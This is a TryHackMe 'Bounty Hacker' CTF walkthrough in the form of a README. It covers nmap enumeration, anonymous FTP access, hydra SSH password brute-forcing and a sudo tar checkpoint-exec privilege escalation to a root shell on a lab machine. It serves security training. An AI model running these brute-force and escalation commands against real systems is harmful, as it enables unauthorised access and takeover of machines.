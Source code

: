 
# TryHackMe: Bounty Hacker 🕵️‍♂️

## Overview

**Bounty Hacker** is a beginner-friendly Capture The Flag (CTF) room on [TryHackMe](https://tryhackme.com/room/cowboyhacker) that simulates a real-world penetration test on a compromised system. The goal is to gain initial access, enumerate, escalate privileges, and retrieve both `user.txt` and `root.txt` flags.

- **Platform**: TryHackMe
- **Difficulty**: Easy
- **Category**: Linux, Enumeration, Privilege Escalation, FTP, SSH
- **Machine IP**: `10.10.90.250`

---

## Objectives

✅ Perform enumeration using Nmap  
✅ Access files via Anonymous FTP  
✅ Crack SSH credentials  
✅ Escalate privileges using misconfigured sudo permissions  
✅ Retrieve `user.txt` and `root.txt` flags

---

## Tools Used

- `nmap` – for port scanning and service enumeration  
- `ftp` – to connect to FTP server  
- `hydra` – for brute-forcing SSH credentials  
- `tar` – for privilege escalation via sudo  
- `mousepad/cat` – for file inspection  

---

## Walkthrough

### 🔍 Enumeration

```bash
nmap -T5 -p- -vv -Pn -sV 10.10.90.250 -oA nmap
```

Discovered open ports:
- **21/tcp** - FTP (vsftpd 3.0.3)
- **22/tcp** - SSH (OpenSSH 7.2p2)
- **80/tcp** - HTTP (Apache 2.4.18)

FTP allowed **anonymous login**.

---

### 📁 FTP Anonymous Access

```bash
ftp 10.10.90.250
# Login as 'anonymous'
get locks.txt
get task.txt
```

Downloaded wordlists containing potential passwords.

---

### 🔐 SSH Brute-Force (hydra)

Discovered user **lin** (from `task.txt`), then brute-forced using:

```bash
hydra -l lin -P locks.txt ssh://10.10.90.250
```

Successfully logged in via SSH.

---

### 👤 User Access

```bash
ssh lin@10.10.90.250
cat ~/Desktop/user.txt

```

---

### 🔝 Privilege Escalation

```bash
sudo -l
# lin can run: (root) /bin/tar
```

Exploited tar to gain root:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Got root shell!

---

### 🏁 Root Flag

```bash
cd /root
cat root.txt

```

---

## Final Notes

- This box reinforces the importance of:
  - Checking for **anonymous services**
  - Simple **brute-force + enumeration**
  - Misconfigured **sudo permissions**
- Root via `tar` is a classic Linux privilege escalation.

---



## Author

👤 **Faisal Khan**  
📂 Cybersecurity Enthusiast | CTF Player | Bug Bounty Hunter  
🔗 GitHub: [github.com/YOUR_USERNAME](https://github.com/mrfaisal607)  
🌐 TryHackMe Profile: [tryhackme.com/p/YOUR_USERNAME](https://tryhackme.com/p/mrfaisal0003)

---

> “Hacking is not just about breaking into systems, it's about learning how they work.” 🧠
